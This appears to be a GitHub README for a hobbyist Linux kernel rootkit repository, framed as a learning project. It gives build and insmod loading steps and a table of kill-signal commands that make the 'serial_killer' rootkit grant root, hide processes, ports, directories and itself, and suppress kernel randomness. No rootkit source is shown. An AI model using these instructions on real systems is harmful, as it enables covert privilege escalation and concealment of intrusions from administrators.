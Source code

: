 # Rootkits
Contains multiple techniques used in rootkits.
Each sub directory contains custom rootkits that I made over the course of my learning. As of now, I have only created the serial_killer rootkit for learning purposes.

## Dependencies

### Ubuntu/Debian
```text
# sudo apt-get update;
# sudo apt-get -y install build-essential linux-headers-$(uname -r) 
```
## Centos
```text
# sudo yum check-update
# sudo yum update
# sudo yum install kernel-devel
```
## Fedora
```text
# sudo dnf check-update
# sudo dnf update
# sudo dnf install kernel-devel
```

## Compilation
```text
# cd /path/to/chosen/rootkit
# make
```

## Inject rootkit
```text
# sudo insmod rootkit.ko
```

## Remove rootkit
```text
# sudo rmmod rootkit.ko
```

## Serial Killer
This is my first rootkit that utitlises ftrace to hook onto `sys_kill` which does the following:

 1. Priviledge Escalation
 2. Hides directories
 3. Manage and hide processes
 4. Hides itself
 5. Intercepting /dev/random and /dev/urandom to remove randomness.

 ### Commands
 ```text
/* Credential Handler */
kill -34 1 # Sets uid to 0
kill -34 0 # Reset uid to original

/* Presence Handler */
kill -35 1 # Hides presence of dirs, processes and ports
kill -35 0 # Unhides presence of dirs, processes and ports

kill -41 <pid> # Adds hidden process
kill -42 <pid> # Removes hidden process
kill -43 1     # Prints all hidden processes

kill -51 <port> # Adds hidden port
kill -52 <port> # Removes hidden port
kill -53 1     # Prints all hidden ports

/* Randomness Handler */
kill -36 1 # Activates randomness
kill -36 0 # Deactivates randomness
 ```

